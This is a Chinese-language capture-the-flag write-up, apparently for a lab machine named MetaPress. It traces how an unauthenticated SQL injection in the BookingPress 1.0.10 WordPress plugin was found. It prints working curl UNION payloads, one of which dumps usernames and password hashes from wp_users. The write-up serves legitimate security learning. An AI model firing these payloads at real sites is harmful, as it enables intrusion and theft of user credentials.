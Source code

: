 找到了robots文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/e989721c087d42eda10d689952739a4f.png)
# CVE漏洞

![在这里插入图片描述](https://img-blog.csdnimg.cn/96350f29b0d942d083d7312917f93c51.png)

然后我一个一个点，发现只是网站的存在的根目录而已，然后我又在每个目录页面查看源代码看看有没有什么突破点，结果找到了一个

![在这里插入图片描述](https://img-blog.csdnimg.cn/d654f3a2abe6474091cb1226c5414a7c.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/264399a26a6845eab2f17ff013a22660.png)



![在这里插入图片描述](https://img-blog.csdnimg.cn/f9ac8ad1474e4b66864c6bcda7aee91b.png)

在这个页面发现了booking press框架，版本为1.0.10，通过搜索发现，这个框架版本有sql注入的漏洞
```
https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/41382fd8dddd486187871663e061ee72.png)
该插件在通过 bookingpress_front_get_category_services AJAX 操作用于动态构造的 SQL 查询之前无法正确清理用户提供的 POST 数据（可用于未经身份验证的用户），导致未经身份验证的 SQL 注入

然后根据这个网站的payload来测试

![在这里插入图片描述](https://img-blog.csdnimg.cn/5198670da14a423282db2d2c2fcb2149.png)

首先根据上面说的，我们要在刚刚的源代码页面搜索action:

![在这里插入图片描述](https://img-blog.csdnimg.cn/b8fe44be6ffc48d18b2d9537ba320fd7.png)

```
_wpnonce:'31bef7a194'
```

然后用以下payload测试

![在这里插入图片描述](https://img-blog.csdnimg.cn/f6e86cceddf147019ca88c08103d96d1.png)
```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=31bef7a194&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9fe45cc5149f4dafb30044f7e969552a.png)

泄露了数据库名，数据库版本，系统信息等其他的东西，现在就是常规的sql注入测试了
```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=31bef7a194&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(user_login),group_concat(user_pass),@@version_compile_os,1,2,3,4,5,6 from wp_users-- -'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3482698a01dd4199b81e3870830a3622.png)
